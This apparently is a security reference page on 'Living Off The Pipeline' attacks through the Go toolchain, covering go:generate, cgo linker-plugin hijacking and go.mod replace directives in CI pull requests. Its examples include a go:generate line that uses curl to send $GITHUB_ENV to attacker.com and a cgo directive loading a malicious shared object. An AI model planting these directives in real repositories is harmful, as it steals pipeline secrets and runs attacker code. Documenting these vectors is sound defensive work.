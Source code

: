 ```yaml
---
layout: tool
title: go
parent: Living Off The Pipeline
nav_order: 3
---
```


## Living Off The Pipeline - go

The Go toolchain offers multiple, distinct vectors for "Living Off The Pipeline" (LOTP) attacks. An attacker can abuse code generation features, hijack the build process itself, or poison dependencies to achieve Remote Code Execution (RCE) or set up a later exploit.

This analysis covers three separate vectors, all of which use documented features of the Go ecosystem.

### Vector 1: `go generate` (First-Order LOTP Tool)

The `go generate` command is a powerful, built-in tool that executes arbitrary shell commands defined in special `//go:generate` comments within Go source files.

*   **Primitive:** Remote Code Execution (RCE).
*   **Mechanism:** An attacker adds a malicious `//go:generate` directive to a source file in their pull request. A CI pipeline step that runs the common `go generate ./...` command will find and execute the attacker's payload.
*   **Example:**
    ```go
    //go:generate curl --data-binary @$GITHUB_ENV http://attacker.com/
    ```

### Vector 2: `go build` via `cgo` Linker Hijacking (First-Order LOTP Tool)

This is a highly surprising vector that subverts the security assumptions of the `go build` command itself. It uses `cgo`, Go's C language interface, to trick the system linker into executing code *during the build process*.

*   **Primitive:** Remote Code Execution (RCE).
*   **Mechanism:** An attacker adds a Go file with `import "C"` and a malicious `LDFLAGS` directive. This flag instructs the system linker (`ld`) to load a malicious shared object (`.so`) file from the repository as a "plugin." The linker executes code from the plugin as part of its process.
*   **Example:**
    ```go
    package main
    /*
    #cgo LDFLAGS: -Wl,-plugin,./malicious.so
    */
    import "C"
    func main() {}
    ```
    A standard `go build` command will trigger this, as it invokes the linker with the attacker's flags.

### Vector 3: `go.mod` `replace` Directive (Setup Gadget)

The `go.mod` file can be weaponized to act as a "Setup Gadget" that injects one of the other LOTP vectors into the build.

*   **Primitive:** Dependency Confusion / Hijacking.
*   **Mechanism:** The `replace` directive in `go.mod` is meant to substitute a dependency with a local version. An attacker can use it to replace a legitimate dependency with a malicious version located within their pull request. This malicious version can then contain a `go:generate` or `cgo` payload.
*   **Attack Chain:**
    1.  **Setup:** An attacker's PR modifies `go.mod` to `replace` a trusted dependency (e.g., `golang.org/x/crypto`) with a local malicious version.
    2.  **Execution:** The CI pipeline runs a standard `go build`. The Go toolchain compiles the malicious dependency, triggering the embedded `cgo` or `go:generate` payload and achieving RCE.
*   **Example `go.mod`:**
    ```
    replace golang.org/x/crypto => ./internal/malicious-crypto
    ```

### References

*   [Go Generate Documentation](https://go.dev/blog/generate)
*   [Using cgo with the go command](https://go.dev/blog/cgo)
*   [Go Modules: `replace` directive](https://go.dev/ref/mod#go-mod-file-replace)
